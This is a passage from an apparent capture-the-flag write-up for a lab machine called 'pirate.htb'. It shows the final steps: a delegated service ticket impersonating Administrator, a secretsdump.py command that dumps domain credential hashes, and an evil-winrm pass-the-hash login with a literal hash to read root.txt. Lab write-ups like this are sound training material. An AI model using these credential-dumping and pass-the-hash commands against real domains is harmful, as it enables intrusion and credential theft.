

This command reqquests an ST for the previously assigned SPN while impersonating the <span class="highlight_username">Administrator</span> account. The <span class="highlight_flag">\-altservice</span> option allows us to use the obtained ticket for the `cifs/DC01.pirate.htb` service.

The last step, run secretsdump.py: 
```bash
secretsdump.py -k -no-pass  pirate.htb/Administrator@DC01.pirate.htb
```

And use the Administrator's hash to access root.txt:
```bash
evil-winrm -H 598295e78bd72d66f837997baf715171 -u 'Administrator' -i pirate.htb
```



<span class="highlight_info">[+] C:/Users/Administrator/Desktop/root.txt</span>